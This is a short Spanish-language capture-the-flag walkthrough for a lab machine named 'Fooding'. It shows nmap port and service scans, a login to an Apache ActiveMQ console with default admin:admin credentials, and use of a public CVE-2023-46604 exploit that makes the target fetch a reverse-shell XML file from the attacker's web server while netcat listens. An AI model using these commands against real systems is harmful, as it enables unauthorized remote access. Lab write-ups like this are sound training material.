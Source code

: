 # Máquina Fooding

### Puertos abiertos

sudo nmap -sS --min-rate 6000 -p- --open -vvv -Pn 172.17.0.2

![alt text](image.png)

### Servicios y versiones

sudo nmap -sVC --min-rate 6000 -p80,443,1883,5672,8161,43517,61613,61614,61616 -vvv -Pn 172.17.0.2

![alt text](image-1.png)

![alt text](image-2.png)

![alt text](image-3.png)

### Entramos en la web por el puerto 8161

![alt text](image-4.png)

escribimos las credenciales admin:admin

### Intrusión

Al momento de ingresar me doy con la sorpresa que está corriendo un apache activemq 5.15.15

![alt text](image-5.png)

entonces busqué un exploit y encontré el siguiente:

https://github.com/evkl1d/CVE-2023-46604, descargué el exploit en mi máquina linux, el exploit me indica que debo iniciar un servidor web en la carpeta dónde está el poc.xml (que contiene una reverse shell), ponerme en escucha con netcat por el puerto que indiqué en el poc.xml y luego ejecutar el comando:

![alt text](image-6.png)

python exploit.py -i 172.17.0.2 -u  http://172.17.0.1/poc.xml

![alt text](image-7.png)

![alt text](image-8.png)
